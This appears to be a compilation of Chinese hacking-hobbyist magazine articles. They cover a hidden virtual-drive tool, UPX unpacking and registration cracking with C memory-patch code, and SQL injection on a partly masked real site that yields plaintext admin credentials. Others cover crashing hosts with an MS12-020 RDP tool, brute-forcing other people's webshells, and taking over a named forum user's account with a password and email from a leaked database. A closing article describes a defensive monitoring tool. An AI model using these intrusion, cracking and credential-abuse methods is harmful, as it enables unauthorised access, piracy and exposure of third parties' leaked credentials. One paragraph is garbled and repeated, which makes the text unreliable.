我用到的是易语言，很好很强大，不会英语的小菜不用发愁了，中文编程。因为是收费软件，我们可以下载一个破解版，我用的是易语言5.0的破解版。首先，打开易语言，建立一个Windows窗口程序，如图2。

在上面放置4个编辑框组件和3个按钮组件。我将虚拟盘符的批处理拆解：编辑框1的内容为F，指的是要保存的盘符；编辑框2的内容为RECYCLED，指的是在盘符下建立一个RECYCLED文件夹；编辑框3的内容为UDrives.{25336920-03F9-11CF-8FD0-00AA00686F13}，指的是虚拟盘上的文件实际上是存放在UDrives.{25336920-03F9-11CF-8FD0-00AA00686F13}这个文件夹中；编辑框4的内容为Z，指的是建立一个Z盘符。

将按钮1命名为“创建”，按钮2命名为“启动”，将按钮3命名为“隐藏”，如图3。

双击按钮1进入代码编辑区，代码如下：

```
运行（“MD ” + 编辑框1.内容 + “\\” + 编辑框2.内容 + “\\” + 编辑框3.内容 + “>NUL”, 假, 1）
```

双击按钮2进入代码编辑区，代码如下：

```
运行（“SUBST ” + 编辑框4.内容 + “ ” + 编辑框1.内容 + “\\” + 编辑框2.内容 + “\\” + 编辑框3.内容 + “>NUL”, 假, 1）
运行（“START ” + 编辑框4.内容 + “\\”, 假, 1）
```

双击按钮3进入代码编辑区，代码如下：

```
运行（“SUBST /D ” + 编辑框4.内容 + “:”, 假, 1）
```

然后静态编译出来，可是无论怎么按这3个按钮都没反应。这时候小菜苦恼了，只好去请求一下百度大神，在花费了半个小时的细心寻找下，偶然发现这样一个帖子，如图4。

> 我用“运行（‘cmd /c c: && cd\ && md autorun.inf && cd autorun.inf && md 23..’，假）”成功地运行了批处理，所以我想是不是“cmd /c c: &&”的原因，所以就在之前的代码上加入了“cmd /c c: &&”，源码如下：

版本2

子程序：按钮1_被单击

```
运行（“CMD /C C: && MD ” + 编辑框1.内容 + “\\” + 编辑框2.内容 + “\\” + 编辑框3.内容 + “>NUL”, 假, 1）
```

子程序：按钮2_被单击

```
运行（“CMD /C C: && SUBST ” + 编辑框4.内容 + “ ” + 编辑框1.内容 + “\\” + 编辑框2.内容 + “\\” + 编辑框3.内容 + “>NUL”, 假, 1）
运行（“CMD /C C: && START ” + 编辑框4.内容 + “\\”, 假, 1）
```

子程序：按钮3_被单击

```
运行（“CMD /C C: && SUBST /D ” + 编辑框4.内容 + “:”, 假, 1）
```

然后静态编译出来，点击“创建”，果然在F盘下创建了一个RECYCLED文件夹，文件夹里创建了一个名为UDrives.{25336920-03F9-11CF-8FD0-00AA00686F13}的网页文件，如图5。

之后点击“启动”，果然创建了一个盘符为Z的虚拟盘符，如图6。

最后点击“隐藏”，盘符Z就隐藏起来了，如图7。

这样一个属于我们的虚拟盘符工具就完成了。这里用“cmd /c c: &&”很巧妙地解决了在易语言中运行批处理指令的问题，所以我要说：编写一款软件我们首先要有明确的目的性，思路很重要。在我们学黑的路上，不要老用别人做好的软件，脚本小子也就是ScriptKiddie，那是伪黑客。我的梦想是做一个灰客，希望大家和我一起走进灰客的世界。下面是百度百科：

> “灰客”这个词语大家会感觉陌生，因为目前在网络上大部分盛传的大多数都是黑客、骇客以及红客，当然它们同属于网络领域，但在领域当中扮演的角色也是各不相同的。其实灰客是很让人简单理解的，大家应该知道黑与白的边界就是灰色地带吧！它不只渗透各个领域当中，即使在网络它也是有所影响的。“灰客”是指继承了黑客的维护与骇客的入侵，双方面的条件下，但是灰客们从不介入PC当中。灰客的组织结构和黑客很像，但是灰客的编程人员只编辑灰色软件，以达到个人目的。在此强调一下，灰客们并不是受技术限制而得名，是他们只专攻于维护安全与入侵破坏两者之间。可以把维护安全比作“白”，把入侵破坏比作“黑”。在不黑不白的制约下，即使非法入侵也很难被电脑人员发现。

### 强大的自校验，我不禁佩服UPX壳

- 操作系统环境：Windows 7
- 目标程序：上海财经大学自主招生试题（友益文书）
- 目标程序大小：6.01 MB
- 工具：ExeinfoPE、Dintal-OD、ImportREC

前序：友益文书的破解是一个与自校验进行艰苦斗争的过程，但是如果我们的目标仅仅是友益文书打包而成的电子书的话，还是有门路可图的。当然，我也花费了不少心机，一开始光看表面以为难度不大，没想到还是需要给点力的。所以本文我意在教教大家手动查找IAT的方法，毕竟这是菜鸟们经常遇到的问题，不废话了，破文开始……

老方法按照国家菜鸟惯例，先来查壳，结果如下（图1）：

是鸟壳“UPX 0.89 - 3.xx -> Markus & Laszlo ver. [2.03]”，菜鸟们看到这个壳可能都笑了，呵呵。脱壳开始，OD载入，这次我教大家一个快捷找OEP方法，不需要ESP定律了。

按Ctrl+B，然后输入“0000000000”搜索，会找到这里（图2）。然后可以看到，往上翻不远就是OEP的入口了，果断在这里设置断点，然后F9运行断下来，然后单步F8一下就到了OEP，代码如下：

```text
006737EC  ...
006737ED  mov ...
006737EF  mov ecx,7
006737F4  push 0
006737F6  push 0
006737F8  dec ecx
006737F9  jnz ...
...
00673803  call ...
```

是一个标准的Borland Delphi入口，这里直接DUMP下来，然后用IR尝试修复，但是填入OEP后，自动查找只找到两个无效的函数（图3）。

那说明要手动查找IAT了。在OEP向下翻，随便找到一个函数，我找到的是0067399A处的“FindWindowA”函数：

```
0067399A
...
user32.FindWindowA
```

然后在这里按下回车再右键，然后随便找个函数点击右键“数据窗口跟随”，这时反汇编窗口和数据窗口都会去到IAT聚集地了（图4）。

在数据窗口找到IAT的开头00694230（图5）。

然后找到结尾00694BB4（图6）。

计算出大小=00694BB4-00694230=984，整理下数据：

```
OEP: 002737EC
RVA: 00294230（减了基址400000）
SIZE: 984
```

然后再次使用IR进行修复，这次我们填上得到的数据，直接点获取输入表，发现都为真（图7）。

抓取后发现程序可以运行，但是弹出了错误提示框（图8）。

非常明显，这是自校验，而这个软件最强大的就是自校验了。我们来初探一下吧。OD载入，试着下MessageBoxA，F9运行起来，中断下来。然后Alt+F9返回到程序领空，点击弹窗框的确认，再次中断下来，代码如下：

```
00454E37 ...
dword ptr ss:[ebp-8],eax
```

发现没有可疑的代码，那就直接在堆栈窗口的0012F6F8这一行右键，汇编窗口跟随吧。然后见到如下代码：

```
004027C6 ...
short ...
004027C8 ... call dword ptr ds:[674028]
```

对此修改为JMP即可，保存，运行试试。发现再次出现对话框，OD再次载入，故技重施吧，还是下MessageBoxA，F9运行起来，中断下来。然后Alt+F9返回到程序领空，点击弹窗框的确认，再次中断下来，在堆栈窗口的0012F728处右键反汇编窗口跟随，得到代码如下：

改jmp后运行试试，发现还是出现对话框，只好再来一次了。这个自校验可真多啊，下MessageBoxA，F9运行起来，中断下来。然后Alt+F9返回到程序领空，点击弹窗的确认按钮，再次中断下来，在堆栈窗口的0012F718处右键反汇编窗口跟随，得到代码如下：

这次是要改004027E4的jnz为nop，保存运行，依然出现提示框，真是烦人啊。当然，我不会放弃，我继续走着这条路。之后我修改的代码如下：

结果出现了错误提示框。那换句话说，这条反自校验的道路遇到了一个大坎了，盲目继续走下去花费也很大，所以在这里我选择了放弃继续攻克软件的自校验防御。那我是如何克制软件的呢？卖个关子，敬请留言下一篇“强大的自校验，弱不禁风的注册验证（强力插入）”预告一下（图9）。

（文中涉及的相关程序及代码本期光盘已收录）

### 注入点总是“猜”出来的！

年晓东

从学会使用注入检测工具的那一天起，像啊D、明小子等等，恐怕很多小菜都同我一样只会重复如此经典的操作过程——先在浏览器中打开目标网站进行踩点的初步观察，然后在首页上点击寻找一个疑似注入点的链接（一般的形式都是“http://www.xxx.com/ProductShow.asp?ID=16”）；接着将它复制到明小子的“SQL注入猜解检测”中，点击“开始检测”按钮；如果被提示“检测失败，该URL不可以进行注入！”的话，相信大部分的小菜会直接放弃对该网站的入侵检测，注入无解啊；反之，如果被提示“恭喜，该URL可以注入！”的话（都特别喜欢这个提示的），就可以接着进行数据库、列名等的进一步猜解工作了，从而使得接下来的拿WebShell等入侵过程变得势如破竹。也就是说，检测到目标是否存在注入点是整个注入攻击的基础前提。

后来陆续在几个人侵动画教程中看到一些作者并不是这样的经典操作，而是先将目标网站的域名复制到啊D的“扫描注入点”中，然后点击各链接进行浏览，此时在下方的“可用注入点”处就会动态显示“检测链接[5]”等信息；如果目标网站存在注入点的话，就直接显示出来以供检测或者复制。小菜我对这种做法并不感冒，也没太往心里去，最多将其定性为“各人习惯不同”；但是，最近在对某网站进行入侵检测时却改变了自己的这种狭隘看法，希望小菜们也能从中学会变通，让自己的技术再稍微前进一步。事情是这样的：

在浏览器中打开目标网站，大体点击了几个链接观察了一下，竟然都是些 http://www.sxxxxz.net/n1856c6.aspx 形式；根据经验，这种链接看起来就不大像注入点。不过，只管先复制到明小子中测一下再说。不出所料，很快就被提示“检测失败，该URL不可以进行注入！”（如图1），晕。

打开啊D的“扫描注入点”界面，将 http://www.sxxxxz.net/ 粘贴到“检测网址”中后点击后面第一个“打开网页”按钮。接着点击了若干个链接，没什么反应；后来点击到目标网站的“备课系统”时，惊喜出现了：啊D下方的“检测链接”处用红字提示出两个疑似注入点（如图2）：http://218.xx.xxx.14:2000/viewtongzhi.asp?id=7 和 http://218.xx.xxx.14:2000/index.asp?xueqi=14&ku=1100。

将第一个链接复制到明小子中进行检测（个人喜好），非常顺利：检测出有admin数据库，列名是user和pass，1条记录（如图3），账号信息是admin/8300343。而且，该账号的密码是明文的，省得再去进行MD5破解了，这也说明这个备课系统绝对是目标网站的一个风险极高的安全隐患。

下面就来试试看这些敏感信息是否有用：

先扫一下“管理入口”，有了，是 http://218.xx.xxx.14:2000/blog （如图4）；点击打开后发现是个多用户博客系统，最上方有个“领导登录”，点击后进入真正的后台登录。

录入 http://218.xx.xxx.14:2000/houtai/adminindex.asp。将账号admin和密码8300343输入，登录，成功了（如图5）！

不用再继续进行网页马的上传以得到WebShell了，我想已经足以说明问题了。当定点人为找出的疑似注入点被无情地提示“检测失败”时，大家不妨放手让啊D这样半自动地跑一跑，说不定就会出现惊喜——“筛”出个注入点来！

### 最新3389大杀伤力漏洞小试

Dintal

- 操作系统环境：Windows 7 and Windows XP in VirtualBox
- 目标测试漏洞：微软 MS12-020 漏洞 0day
- 工具：ms12-020、Command、VirtualBox

漏洞分析：3月13日晚间，微软更新了6个漏洞，其中一个名为MS12-020的漏洞为超高危漏洞，黑客可利用该漏洞特别构造RDP协议包远程控制用户电脑或服务器。由于该漏洞影响XP、2003、Win7和2008等主流操作系统，且大量用户在使用Windows的远程桌面服务，所以，这是一个非常危险的漏洞。而对这个漏洞的分析初步可见存在漏洞的函数是 HandleAttachUserReq()，而微软针对这个漏洞设计了临时补丁，在打补丁前后，代码有了怎样的区别呢，下面我们来看看，以下部分引用blackbap的分析：打补丁前：

```c
char __thiscall HandleAttachUserReq(int this, int a2, int a3)
{
    int v3; // esi@1
    int v4; // eax@3
    int v6; // [sp+8h] [bp-18h]@3
    char v7; // [sp+4h] [bp-Ch]@3
    int v8; // [sp+8h] [bp-8h]@3
    int v9; // [sp+Ch] [bp-4h]@2
}
```

```c
v3 = this;
*((DWORD *)a3) = 1;
if (*(_BYTE *)(this + 16) & 0x20)
{
    while (IcaBufferAlloc(...))
        ...
    v4 = MCSAttachUserRequest(v3, 0, 0, 0, &v8, &v7, (char *)&a3 + 3);
    v6 = *((DWORD *)(v9 + 16));
    if (v4)
    {
        CreateAttachUserCon(14, 0, 0, v6);
        *((DWORD *)(v9 + 20)) = 9;
    }
    else
    {
        CreateAttachUserCon(0, 11, *((DWORD *)(v8 + 12)), v6);
        *((DWORD *)(v9 + 20)) = 11;
        *((_BYTE *)(v8 + 4)) = 0;
    }
}
```

```c
char __thiscall HandleAttachUserReq(int this, int a2, int a3)
{
    int v3;
    int v4;
    int v6;
    char *v7;
    int v8;
    int v9;

    v3 = this;
    *(DWORD *)a3 = 1;
    if ( *(_BYTE *)(this + 16) & 0x20 )
    {
        while ( IcaBufferAlloc(..., &v9) )
        {
            v4 = MCSAttachUserRequest(v3, ..., &v8, &v7, (char *)a3 + 3);
            v6 = *(DWORD *)(v9 + 16);
            if ( v4 )
            {
                CreateAttachUserCon(...);
                *(DWORD *)(v9 + 20) = 9;
            }
            else
            {
                CreateAttachUserCon(...);
                *(DWORD *)(v9 + 20) = 11;
                *(_BYTE *)(v8 + 4) = 0;
            }

            if ( SendOutBuf(v3, v9) < 0 )
            {
                SListRemove(v3 + 112, v8);
            }
        }
    }
    return 1;
}
```

```c
// 生成下面的代码句，这是更新后的代码
if ( ... )
{
    if ( ... )
    {
        ExFreePoolWithTag(P, 0);
    }
}

return 1;
```

可以很明显地看到代码中添加了一个额外的函数 **ExFreePoolWithTag()** 用于检查和释放内存的使用：

```asm
0002CB30  @HandleAttachUserReq@16
0002CBB8  push ss:[ebp+var_4]
0002CBBB  push esi
0002CBBC  call _SendOutBuf@8
0002CBC1  test eax, eax
0002CBC4  jge loc_2CBD6

0002CBC6  lea eax, ss:[ebp+var_8]
0002CBC9  push eax
0002CBCA  push ss:[ebp+var_8]
0002CBCD  add esi, 0x70
0002CBD0  push esi
0002CBD1  call _SListRemove@12

0002CBD6  mov bl, al
0002CBD8  pop esi
0002CBD9  leave
0002CBDA  retn 0x8
```

这是后面加总检查和释放函数的：

```asm
0002CB44  @HandleAttachUserReq@16
0002CBCC  push ss:[ebp+var_4]
0002CBCF  push esi
0002CBD0  call _SendOutBuf@8
0002CBD5  test eax, eax
```

```asm
0002CBD7    jge loc_2CBD6
0002CBD9    lea eax, [ebp+var_P]
0002CBDC    push eax
0002CBDD    push [ebp+var_P]
0002CBE0    add esi, 70h
0002CBE3    push esi
0002CBE4    call _SListRemove@12
...
0002CC02    retn 8
```

```asm
00019791    jz short loc_1973D
00019793    push 0
00019795    push esi
00019796    push [ebp+arg_4]
00019799    push [ebp+var_4]
0001979C    push [ebp+var_8]
0001979F    push [ebp+var_C]
000197A2    push [ebp+arg_0]
000197A5    call _WDWConnect@28
```

分析就到此为止吧，这个漏洞的形成其实就是内存的问题，而它的危害性是源于它怎样被利用的，限于篇幅，我会把具体shellcode打包给大家，所以就不贴出来了，我直接示范这个漏洞的使用，看完也许你会惊叹它的力量是多么强大，甚至连DDoC也无法比美。

漏洞实践：首先我需要用虚拟机安装一个系统，这里我选用WinXP，因为它最为普遍，如果连WinXP也挂了那说明它的危害范围非常广了。安装系统过程我就省略了，需要打开远程桌面功能，我的已经打开了，不修改端口继续用默认的3389，虚拟机与网络连接方式我使用的是桥接，与主机构成局域网，启动虚拟主机后，打开运行-输入“cmd”确定，然后输入“ipconfig /all”回车，找到自己的局域网IP（图1）。

然后在主机打开CMD窗口，尝试ping虚拟主机的IP，我这里是169.254.40.9，是可以Ping通的（图2）。

此时我们就可以开始漏洞攻击了，所有使用的工具除了虚拟机我都已经打包给大家了，现在用的是ms12-020，把ms12-020.exe拖进cmd窗口，然后在后面加上虚拟主机的IP 169.254.40.9 然后回车，就会显示成功发送的信息（图3）。

通过检查，上述函数似乎只解决了内存泄露问题，并没有解决内存不释放的问题？

还有一个函数也是疑似检查用户数据的，疑似是边界的检查：

```asm
0001978A    call ...
WDWParseUserData@36
...
0001978E    test eax, eax
```

然后我们重复以上命令，这个次数不是每次都一样的，当重复到一定次数后，我们发现虚拟主机自动重启了，而且此时CMD窗口数据发送不成功，返回-3（图4）。

在多次测试中发现主机大部分表现为蓝屏，每次时间在几秒到十几分钟不等，这个威力足以秒杀DDoC，所以下面就来教大家去暂时避免受害吧。为什么说是暂时？因为就连微软的补丁也不能完全解决问题，那我这方法也只可以算是临时方法而已。

### 一、修改服务器端的端口设置（注册表有2处需要修改）

漏洞及时补救措施：结合这个漏洞，我给出一些防范的建议。第一是对服务器开启自动更新。第二是对3389远程登录端口进行修改，这里我修改已经成功，并且尝试使用修改后的端口进行攻击，没有效果，所以拿出来和大家分享。总共有两个步骤：一是修改服务器端的端口设置；二是客户端连接方法。方法如下（以Windows XP为例，其它系统仅供参考）：

- 第一处：[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp] PortNumber值，默认是3389，选择十进制，改成你所希望的端口（范围在1024到65535，而且不能冲突），比如10000，见下图（图5）。
- 第二处：[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp] PortNumber值，默认是3389，选择十进制，改成你所希望的端口（范围在1024到65535，而且不能冲突），比如10000，注意和上文提到的第一次必须一致，见下图（图6）。
- 重启系统使设置生效。

事实上，只修改第一处也是可以的。另外，第二处的标准连接形式是：[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\<connection>]，其中<connection>表示具体的某个RDP-TCP连接（这里应该有一个或多个类似RDP-TCP的子键，取决于你建立了多少个RDP服务），一样改掉PortNumber。

#### 二、客户端连接方法

- 打开远程桌面连接：XP下在运行里输入“mstsc”即可。
- 连接的格式：IP:修改后的端口，如169.254.40.9:10000。

后记：这个漏洞是在前几天才出现的，估计会导致互联网大部分主机瘫痪，希望各位网管能及时修补和采取相应的措施。

> （文中涉及的相关程序及代码本期光盘已收录）

### 暴个WebShell来练手

年晓东

在入侵检测网站的过程中，拿WebShell是最初的踩点、破解管理员账号与密码、登录后台、提权、远程登录等若干环节中极为重要的一环；也可以说走到了这一步，是菜鸟的一个阶段性胜利标志。现在网上存活着不少的WebShell（小菜曾经搜索出一个三年以前的有效WebShell），如果精心构建关键字的话，我们可以直接找到前辈们留下的“足迹”。

大约两三年前我们可以在Google中搜索“intitle:网站小助手 inurl:asp”，很快就能在几个搜索结果中找到含有“本文件绝对路径D:\webbbs\diy.asp 保存文件的绝对路径（包括文件名：如D:\web\x.asp）：”之类字眼儿的链接（如图1），因为它是“旁注网站小助手”这个“小马”所包含的敏感信息。由于大多数人都没有上传完“大马”就销毁“小马”的习惯，因此我们就可以借这个免费的“小马”来直接上传我们自己的“大马”，从而得到该网站的WebShell。

不过，这并不意味着这种搜索方法失效，我们只要根据目前流行的WebShell木马所具有的特有“烙印”去Google的话，收效还是比较大的。比如今年1月份曾有一篇这样的文章“关于搜索引擎抓取网站毫不相干的文件，谷歌搜出大量WebShell”……作者就以“intitle:围剿专版”为例来论证了这种搜索方法的可行性。

一开始小菜从网上找了个“SHELL暴力破解.exe”（Write By 村长，图标是个黑背景白面具），但在进行测试时却发现根本就不起作用：一是没有显示爆破的进度，二是即便所加载的字典中有对号的密码也是无法破解WebShell。郁闷了几天之后联系到一个大牛，得到一个名为“WebShell爆破器更新版.exe”的小工具（By 0xSpy），自带一个27KB的“password.txt”字典文件，里面的密码个数是3415；小菜用Excel 2010的“删除重复项”功能处理后，又添加了常用WebShell的80多个默认密码，最后整理出一个包含1509个密码的小字典文件，经试用后发现非常有效。

一开始小菜从网上找了个“SHELL暴力破解.exe”（Write By 村长，图标是个黑背景白面具），但在进行测试时却发现根本就不起作用：一是没有显示爆破的进度，二是即便所加载的……

### 菜鸟学堂

如何测试呢？仍然按照老方法来 Google？不，我们虽然技术还很菜，但思路不能菜！小菜我又将目光转移到了“中国被黑站点统计系统”（http://www.zone-h.com.cn/#）上，呵呵。为什么呢？因为上面曝光的可都是刚刚被黑过的“新鲜”目标啊！虽说其中的绝大多数是 html 和 txt 之类的“黑页”，剩下的 asp 和 php 也有很多是这种情况；不过仍会有些前辈是将 WebShell 地址直接放在上面，我们就可以拿这些二手 WebShell 来测试一下“WebShell爆破器更新版.exe”，然后再进行其它的练手升级训练。OK，废话不多说，开始我们简单而直接的测试之旅吧。

打开工具，首先点击“载入字典”按钮，将“整理后的1509个密码.txt”挂接上；然后把目标 WebShell 地址粘贴到“Shell地址：”之后，点击“转到”按钮打开该页面看一下是否能够正常访问；最后就是点击“开始爆破”按钮进行暴力破解了，界面下方会实时显示爆破进度。如果爆破成功，工具就会直接进入这个 WebShell，同时提示“Shell密码：xxxxxx”；反之，则会提示“小弟不才，未爆破出来”。这个工具的爆破速度还是非常快的，一阵搜索目标和爆破过后，小菜我很快就得到了四个 WebShell（如上页图2）。

有了这样一些截获的 WebShell，相信它们会给小菜的学黑修炼提供很好的实验场地。我想，这样的爆破也许最多也只算得上是一种比较投机取巧的“捷径”吧——大牛不耻哈。当然，切记一条原则：不要违法做坏事！

最后总结一句：工具很给力，最终爆破成功只是字典和时间的问题。

（文中涉及的相关软件本期光盘已收录）

### “社”个账号借用一下

年晓东

小菜在“中国红客联盟”论坛上注册已经一年多了，但仍属于最低等的“红客新手”级别，积分的增加非常慢，因此在访问一些“私密版块”（比如“常用工具”）时总被提示没有权限，必须要升级，很郁闷。怎么办呢？忽然小菜想到了前几天才发现的一个“密码泄漏查询”网站（http://www.bamaba.com/），据说是提供了天涯、CSDN 和人人网总共7000万用户密码的数据库，我何不……

在红盟社区上转了下，看到有个“liaoqq404”账号，级别是红盟学员，可以进入私密版块，试着来“社工”一下这个账号吧！将它粘贴到“密码丢了没”网中的文本输入框，然后点击“搜索一下”按钮。哈哈，运气真好，被提示“亲，丫们把你卖了，看看密码没改的赶紧改吧”。按照提示，在该账号前面加上英文的“@”符号，再次“搜索一下”，OK，该账号在天涯网站上被泄露过，邮箱是“liao404678422@qq.com”，密码是“liao54261478”（如图1）。马上用“liaoqq404/liao54261478”在红盟上尝试登录，成功了，看来又是“一个密码走天下”惹祸的小案例哈！接下来就是非常顺利地进入某私密版块（如图2），查看帖子、下载工具等操作都没有任何问题，“变身”成功。借用账号的目的已经达到，其它的版主什么的小菜就不“社”了，闪人！


图1

图2

> **小结**
>
> 黑客社工技术无处不在，大家平时一定要多多留意自己所接触到的各种资源，多一份耐心、多一份细心、多一份灵活。或许，在某次入侵检测陷入瓶颈时，到 http://www.bamaba.com/ 这样的网站来查询一下管理员的账号，有可能就会得到对方或相关度极高的密码，从而在瞬间瓦解对方看似固若金汤的安全堡垒——这就是“社工”的威力。

### 强大的自校验，弱不禁风的注册验证（强力插入）

- 操作系统环境：Windows 7
- 目标程序：上海财经大学自主招生试题（友益文书）
- 目标程序大小：6.01 MB
- 工具：Dintal-OD、Keymake

前言：经过上一期的“强大的自校验，弱不禁风的注册验证（手动查找IAT）”一文分析过后，我们可以知道，目标软件的自校验是非常繁琐的，要攻破所有自校验在短时间内是办不到的……因此，当我们面对如此强大的自校验，我建议是先另寻他路，当其他路都走不通了才去专研这条反自校验的道路。

首先我们来看看软件的注册机制，打开软件后注册码输入出现，因此必须完成注册才能使用软件的功能。（图1）我们先用假的注册码“1111111111111111111111111111”来试试有什么反应……输入假码后点确定，程序的反应是这样的。（图2）


从这个过程我们可以知道，程序肯定对注册码进行了判断，并且判断出是错误的注册码了，也就可以排除这是“重启验证”类型了。对于这种注册类型的软件，我们一旦找到程序判断注册的位置，就可以反复通过触发按钮进行调试，不需要每次都重载程序。

当程序运行到注册码验证时，我们填上假码，然后下 CreateFileA 断点。为什么要下这个断点呢？CreateFile 是一个全功能的例程，可打开和创建文件、管道、邮槽、通信服务、设备以及控制台缓冲区。换而言之，我下这个断点是因为我肯定了软件在验证注册的时候会创建文件……因为我注意到程序注册码输入框那里有一个小小的“保存密码”的小钩。（图3）


呵呵，大家有没有发现呢？作为 Cracker 必须细心注意每一项线索的。不过话说回来，很多程序在验证的过程前后都会进行文件的创建，因此，也可以说这是一个经验。下好 CreateFileA 断点后，点确定，程序中断下来，Alt+F9 返回到程序领空：

```
005EA20D    68 80000000      PUSH 80
005EA212    6A 03            PUSH 3
005EA214    6A 00            PUSH 0
005EA216    6A 03            PUSH 3
005EA218    68 000000C0      PUSH C0000000
005EA21D    68 38A25E00      PUSH ...
ASCII "\.SICE"
005EA222    E8 090BE1FF      CALL 上海财经.00407A3
; JMP 到 kernel32.CreateFileA
005EA227    83F8 FF          CMP EAX,-1
005EA22A    74 08            JE SHORT 上海财经:005EA234
005EA22C    50               PUSH EAX
005EA22D    E8 D6D7E1FF      CALL 上海财经.00407A0
; JMP 到 kernel32.CloseHandle
005EA232    B3 01            MOV BL,1
005EA234    8BC3             MOV EAX,EBX
005EA236    5B               POP EBX
005EA237    C3               RETN
```

这时候我们停在0063DFB0，开始单步跟踪吧，一路按 F8，当到 0063E5B4 的时候，我们发现在右边的寄存器位置出现了我们输入的假注册码，呵呵，有料子。这时要提高警惕性继续向下走。（图4）


图4

一直向下走，当来到 0063E6FA 的时候，我们发现可疑的跳转。为什么说这个跳转是可疑的，之前这么多跳转就是不可疑的呢？原因很简单，因为这个跳转的跨度非常大，中间包含了大量代码；由 0063E6FA 一直到 0063EA1E：

```
0063E6FA  /0F85 1E030000  JNZ 上海财经.0063EA1E
0063EA1E  \8B45 FC        MOV EAX,DWORD PTR SS:[EBP-4]
```


图5

这时候我们先在 0063E6FA 的跳转处下好硬件执行断点，以备以后使用，因为这个跳转里面包含的就是关键代码了。这次我们先让这个跳转不实现，把寄存器标志位改为 1。然后继续 F8 向下探索，中途如果出现卡死的现象，可以按下 Ctrl+Alt+Del，这样就不会卡死了。当程序走到 0063E742 的时候，我们发现出现了程序的机器码：（图5）

继续向下走又会在 0063E77D 处发现我们的假注册码。（图6）


图6

接着会发现很多关键的信息，例如这个比较。（图7）


图7

我就不全部贴图了，直接到最关键的注册码对比吧。位置是 0063E95B，这里我们发现软件将我们输入的假注册码和真的注册码进行对比，这时候我们知道这个软件要“坏”了，赶紧把真注册码复制下来吧。我的注册码是：6324434286876316。现在我们还不可以关掉 OD，因为这个软件还有反追码设计，如果不改 0063E6FA 处的跳转让它不要跳的话，还是注册失败的。现在把真的注册码填上，再次触发注册按钮，然后把 0063E6FA 处的跳转改为不跳，发现出现了正确的提示：（图8）


图8

搞清楚了软件的整个注册过程，下面我们就可以开始做破解补丁了，我们的目的有两个，第一个，将 0063E6FA 处的跳转变成不跳：

```
原本：
0063E6FA  /0F85 1E030000,  jnz 上海财经.0063EA1E
改为：
0063E6FA  909090909090      nop nop nop nop nop nop
```

第二个目的是使假码与真码对比之前，把真码的值赋值给假码，使假码存储的位置变为真码，然后再进行对比，使程序成功注册为正版：


只要把以上的修改做成内存补丁就可以，我用的是 key-make 制作内存补丁。（图9）


图9

我个人懂点编程，所以推荐拿到真正的注册码，破解补丁源代码我会打包给大家的，下面贴出主要代码：

```c
#include "stdafx.h"

HANDLE hProcess;

void Write(LPVOID lpAddress, LPCVOID lpBuffer, SIZE_T nSize)
{
    DWORD dwProtect, dwWriteByte;
    VirtualProtect((LPVOID)lpAddress, nSize, PAGE_READWRITE, &dwProtect);
    WriteProcessMemory(hProcess, lpAddress, (void*)lpBuffer, nSize, &dwWriteByte);
}

void Patchit()
{
    DWORD lpAddress = 0x0063E6FA;
    BYTE  dwNewValue[6] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    // dwNewValue[0] = 0xE9;
    // *((PDWORD)(&dwNewValue[1])) = (DWORD)Shell...
    Hook->DWORD(lpAddress) = 5;
    Write((LPVOID)lpAddress, &dwNewValue, 6);

    lpAddress = 0x0063E95B;
    BYTE dwNewValue1[5] = {0xE9, 0xD9, 0xB6, 0x10, 0x00};
    Write((LPVOID)lpAddress, &dwNewValue1, 5);

    lpAddress = 0x0074A039;
    BYTE dwNewValue2[24] = { ... };
    Write((LPVOID)lpAddress, &dwNewValue2, 24);
}
```

### 菜鸟学堂

```cpp
Install()
{
    HWND hwid=FindWindow("TFOrm1","上海财经大学自主招生试题");
    if(hwid==NULL){
        MessageBox(NULL,"补丁失败!","信息",MB_OK);
        ExitProcess(NULL);
    }
    DWORD lpdwProcessId=0;
    GetWindowThreadProcessId(hwid,&lpdwProcessId);
    HANDLE hproc=OpenProcess(PROCESS_ALL_ACCESS,FALSE,lpdwProcessId);
    if(hproc==0){
        MessageBox(NULL,"补丁失败!","信息",MB_OK);
        ExitProcess(NULL);
    }
    HProcess=hproc;
    PatchIt();
    CloseHandle(hproc);
    MessageBox(NULL,"补丁成功!","信息",MB_OK);
}
```

```cpp
int APIENTRY WinMain(HINSTANCE hInstance,
                     HINSTANCE hPrevInstance,
                     LPSTR lpCmdLine,
                     int nCmdShow)
{
    // TODO: Place code here.
    Install();
    return 0;
}
```

使用方法很简单，先运行软件，然后运行补丁，接着正常注册，补丁就会帮你把正确的注册码拦截下来了，你只要记下来就可以正常进行注册了，效果如下图：（图10）


图10

如果想玩重新注册的，可以到注册码保存的位置，把文本删掉：`C:\Documents and Settings\Administrator\Application Data\YYmm`，这个就是之前提到的注册时生成的东西了，这里验证了它的正确。

后记：当遇到强大的阻力不要硬碰，应该先转转其他方向，否则在一个点上浪费太多的精力会造成整个面的损失。这也许是人生的一个道理吧，Cracker 的精神不在于盲目坚持，而在于适时回眸。

> （文中涉及的相关程序及代码本期光盘已收录。）

### 巧设“陷阱”，捕捉潜入系统的不速之客

郭建伟

在使用 Windows 过程中，从表面上看系统似乎显得很平静，实际上 Windows 在后台进行着各种繁忙的操作。因此深入了解系统的活动情况，对维护 Windows 的正常运行就显得很重要了。例如病毒等恶意程序在侵入系统后，往往会对系统进行各种破坏操作，通过对系统“要害部位”进行监控，就可以发现其活动的踪迹，进而让恶意程序彻底“曝光”。使用 ID Folder Protector（以下简称 IFP）这款免费的系统监视工具，就可以对文件夹、文件、注册表、服务等对象进行深入的监控操作，让您随时了解系统的一举一动。下载地址：http://www.idsecuritysuite.com/files/iddirectoryshieldsetup.exe。

在 IFP 主界面左侧点击“Options”按钮，在设置窗口（如图1）中勾选“Auto run when Windows starts”项，可以让其跟随系统自动运行。为了加强运行的隐藏性，最好取消“Show in tray”的选择状态，使其从系统托盘中隐身，在后台悄悄执行。为了防止别人随意更改 IFP 配置，可以勾选“Password Settings”项，设置管理密码。这样，不知道密码的话，就无法操作 IFP。

